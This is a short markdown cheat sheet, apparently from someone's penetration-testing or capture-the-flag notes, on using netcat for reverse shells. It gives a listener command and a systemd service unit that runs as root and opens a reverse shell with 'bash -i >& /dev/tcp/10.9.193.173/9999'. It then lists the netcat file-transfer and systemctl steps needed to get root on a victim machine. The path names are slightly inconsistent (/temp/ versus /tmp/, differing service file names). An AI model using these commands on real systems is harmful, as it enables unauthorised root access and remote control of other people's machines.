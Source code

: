 # Netcat

## Example 1

Start netcat listening on e.g. port 1234

```sh
nc -lvnp 1234
```

Once payload is triggered netcat will open a reverse shell:

![netcat_injecttest](_netcat_injecttest.jpg)

## Example 2

Create 0xfab1.service in /temp/

```txt
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.193.173/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

- move file to /temp/ of www-data from attacker box:
 -on victim: ```nc -vl 44444 > fab.service```
- on attacker:  ```nc -n TargetIP 44444 < fab.service```
- on attacker now start a new netcat session on 9999: ```nc -lvnp 9999```

Now use systemctl on victim machine and we should be root from the attacker box:

```sh
/bin/systemctl enable /tmp/fab.service
/bin/systemctl start fab
```
